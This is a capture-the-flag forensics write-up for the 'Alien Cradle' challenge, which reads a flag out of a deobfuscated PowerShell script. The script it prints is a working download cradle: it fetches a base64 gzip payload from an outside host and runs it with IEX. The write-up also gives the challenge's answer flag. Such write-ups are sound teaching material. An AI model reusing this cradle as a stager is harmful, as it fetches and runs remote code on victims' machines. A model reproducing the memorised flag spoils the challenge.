 # Alien Cradle

Category: Forensics
Difficulty: very easy
Points: 350

************Category************: Forensics

****************Points:**************** 350

************************Difficulty:************************ very easy

## Description

In an attempt for the aliens to find more information about the relic, they launched an attack targeting Pandora's close friends and partners that may know any secret information about it. During a recent incident believed to be operated by them, Pandora located a weird PowerShell script from the event logs, otherwise called PowerShell cradle. These scripts are usually used to download and execute the next stage of the attack. However, it seems obfuscated, and Pandora cannot understand it. Can you help her deobfuscate it?

## Walkthrough

### File Analysis

The file is a ps1 script, which in plaintext gives:

```python
if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};$w = New-Object net.webclient;$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

It’s not super hard to see that the flag is right here in plain sight. Just pasting the following string in a Python console returns the flag:

```python
('H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}')
#'HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}'
```

**************Flag:************** HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}